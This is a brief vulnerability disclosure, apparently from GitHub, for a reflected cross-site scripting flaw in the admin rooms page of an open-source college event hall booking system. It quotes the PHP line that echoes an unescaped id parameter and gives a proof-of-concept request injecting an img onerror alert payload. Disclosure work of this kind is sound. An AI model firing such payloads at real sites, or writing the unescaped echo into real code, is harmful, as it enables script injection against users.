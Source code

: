 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/rooms.php

## Code
```php
<form action="rooms.php?id=<?php echo $id; ?>" method="POST" enctype="multipart/form-data"
                      autocomplete="off">
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/rooms.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/5929829c-e45c-4ce9-8c2d-a702452b24cd)


